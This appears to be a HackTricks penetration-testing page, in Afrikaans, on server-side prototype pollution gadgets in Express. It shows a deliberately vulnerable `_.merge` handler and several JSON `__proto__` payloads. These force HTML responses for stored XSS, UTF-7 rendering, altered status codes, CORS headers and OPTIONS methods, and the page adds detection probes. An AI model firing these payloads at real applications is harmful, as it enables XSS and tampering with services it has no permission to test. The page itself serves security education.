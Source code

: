 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Dien XSS antwoorde in

**Vir verdere besonderhede** [**kyk na die oorspronklike navorsing**](https://portswigger.net/research/server-side-prototype-pollution)

### Verander JSON inhouds tipe na HTML

In 'n Express-app wat 'n **JSON inhouds tipe antwoord** gebruik en 'n JSON reflekteer:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
In hierdie gevalle is XSS normaalweg nie moontlik met 'n JSON-inhouds tipe nie. egter, met prototipe besoedeling kan ons **Express verwar om 'n HTML-antwoord te dien.** Hierdie kwesbaarheid is afhanklik van die toepassing wat **`res.send(obj)`** gebruik en die liggaam parser met die toepassing/json-inhouds tipe.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Deur **`body`** en **`_body`** eienskappe te **besmet**, is dit moontlik om **Express te laat bedien die HTML inhoud tipe** en die `_body` eienskap te reflekteer, wat lei tot gestoor XSS.

### Render UTF7

Dit is moontlik om express **UTF-7 inhoud te laat weergee met**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Veilige Scanning Tegnieke

### JSON spasie

Die volgende PP sal eienskappe binne 'n JSON 'n ekstra spasie gee wat die funksionaliteit nie sal breek nie:
```json
{"__proto__":{"json spaces": " "}}
```
Dan sal 'n weerspieëlde JSON soos volg lyk:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Die volgende PP-gadget sal die bediener dwing om die HTTP-koptekst terug te stuur: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Dit vereis dat die **CORS-module geïnstalleer word**

### **OPTIONS Metode**

Met die volgende payload is dit moontlik om 'n **metode uit 'n OPTIONS-antwoord te verberg**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Dit is moontlik om die **teruggegee statuskode** te verander met die volgende PP payload:
```json
{"__proto__":{"status":510}}
```
### Fout

Wanneer jy 'n prototipe aan 'n primitiewe soos 'n string toewys, produseer dit 'n **geen-operasie nie, aangesien die prototipe 'n objek moet wees**. As jy probeer om 'n prototipe objek aan die `Object.prototype` self toe te wys, sal dit **'n uitsondering gooi**. Ons kan hierdie twee gedrag gebruik om **te detecteer of prototipe besoedeling suksesvol was**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Wanneer 'n toepassing 'n objek in sy antwoord insluit, kan dit insiggewend wees om 'n attribuut met 'n **ongewone naam saam met `__proto__`** te skep. Spesifiek, as **slegs die ongewone attribuut in die antwoord teruggestuur word**, kan dit die toepassing se kwesbaarheid aandui:
```json
{"unusualName":"value","__proto__":"test"}
```
Boonop, in scenario's waar 'n biblioteek soos Lodash gebruik word, bied die instelling van 'n eienskap sowel via prototipe besoedeling (PP) as direk binne die objek 'n ander diagnostiese benadering. As so 'n eienskap uit die antwoord weggelaat word, dui dit daarop dat Lodash die bestaan van die eienskap in die teikenobjek verifieer voordat dit saamgevoeg word:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Laat Punte Toe

Daar is 'n opsie in Express wat jou toelaat om **objekte uit soekstring parameters** te **skep**.\
Jy kan dit beslis in 'n fout **ketting** gebruik om 'n **prototype besoedeling kwesbaarheid** te benut.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` skep 'n objek in Node.**

## Verwysings

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
